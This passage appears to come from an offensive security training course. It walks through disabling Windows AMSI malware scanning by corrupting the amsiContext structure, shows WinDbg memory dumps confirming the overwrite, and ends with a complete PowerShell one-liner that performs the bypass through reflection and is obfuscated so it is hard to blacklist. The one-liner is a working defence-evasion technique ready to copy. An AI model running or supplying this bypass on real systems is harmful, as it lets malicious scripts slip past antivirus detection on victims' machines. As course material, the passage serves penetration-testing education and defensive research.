 > Listing 36 - Overwriting the amsiContext header bytes

We do not get any output from the executed commands, but we can inspect our work by switching to WinDbg, forcing a break through _Debug_ > _Break_ and dumping the content of the _amsiContext_ buffer:

```
(1284.1ff8): Break instruction exception - code 80000003 (first chance)
ntdll!DbgBreakPoint:
00007fff`d3521f80 cc              int     3
0:010> dc 0x1609A791020
00000160`9a791020  00000000 00000000 806db190 00000160  ..........m.`...
00000160`9a791030  8086dd30 00000160 00000037 00000000  0...`...7.......
00000160`9a791040  6372756f 00007365 cf43afd2 91000300  ources....C.....
00000160`9a791050  554c4c41 53524553 464f5250 3d454c49  ALLUSERSPROFILE=
00000160`9a791060  505c3a43 72676f72 61446d61 00006174  C:\ProgramData..
00000160`9a791070  00000000 00000000 cf5eafd1 80000400  ..........^.....
00000160`9a791080  00000000 00000000 9a791080 00000160  ..........y.`...
00000160`9a791090  00000000 00000000 80000000 00000000  ................
```

> Listing 37 - Verifying the overwritten AMSI header

This output indicates that the context structure header was indeed overwritten, which should force _AmsiOpenSession_ to error out.

Next, let's continue execution in the debugger, switch back to PowerShell, and enter the malicious 'amsiutils' string:

```
PS C:\Users\Offsec> 'amsiutils'
amsiutils
```

> Listing 38 - No detection on amsiutils with corrupted context header

The string was not flagged. Excellent.

We can combine this bypass into a PowerShell one-liner:

```
PS C:\Users\Offsec> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS C:\Users\Offsec> 'amsiutils'
amsiutils
```

> Listing 39 - AMSI bypass through context structure corruption

Not only is this bypass working, but it is difficult to blacklist now that we've removed explicit signature strings and dynamically resolved the types and fields.

This is working well, but it's not the only approach. We'll work through another bypass in the next section.

**Exercises**
